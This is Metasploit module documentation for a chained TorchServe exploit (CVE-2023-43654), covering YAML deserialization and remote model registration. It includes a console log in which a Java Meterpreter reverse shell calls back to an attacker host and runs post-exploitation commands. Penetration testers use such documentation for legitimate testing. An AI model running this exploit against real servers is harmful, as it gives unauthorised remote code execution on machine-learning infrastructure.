## Vulnerable Application

The PyTorch model server contains multiple vulnerabilities that can be chained together to permit an
unauthenticated remote attacker arbitrary Java code execution. The first vulnerability is that the management
interface is bound to all IP addresses and not just the loop back interface as the documentation suggests. The
second vulnerability (CVE-2023-43654) allows attackers with access to the management interface to register MAR
model files from arbitrary servers. The third vulnerability is that when an MAR file is loaded, it can contain a
YAML configuration file that when deserialized by snakeyaml, can lead to loading an arbitrary Java class.

PyTorch TorchServer versions prior to 0.8.2 are affected. This module was tested against version 0.8.1.

## Verification Steps

1. Install the application
    * `docker run --rm -it -p 8080:8080 -p 8081:8081 pytorch/torchserve:0.8.1-cpu`
2. Start msfconsole
3. Do: `use exploit/multi/http/torchserver_cve_2023_43654`
4. Set the `RHOST`, `PAYLOAD` and payload-related options
5. Do: `run`
6. You should get a shell.

## Options

## Scenarios

### PyTorch TorchServer 0.8.1

```
msf6 exploit(multi/http/torchserver_cve_2023_43654) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/torchserver_cve_2023_43654) > set PAYLOAD java/meterpreter/reverse_tcp
PAYLOAD => java/meterpreter/reverse_tcp
msf6 exploit(multi/http/torchserver_cve_2023_43654) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/torchserver_cve_2023_43654) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 0.8.1 is vulnerable.
[*] Using URL: http://192.168.159.128:9090/VLz5xafKtJOjBAv/
[*] Registering the model archive...
[+] Sending model archive
[*] Sending stage (57692 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 172.17.0.2:49662) at 2023-10-12 09:19:30 -0400
[*] Server stopped.

meterpreter > getuid
Server username: model-server
meterpreter > sysinfo
Computer        : 187de8da4e1b
OS              : Linux 6.2.15-100.fc36.x86_64 (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
meterpreter > pwd
/home/model-server
meterpreter > 
```
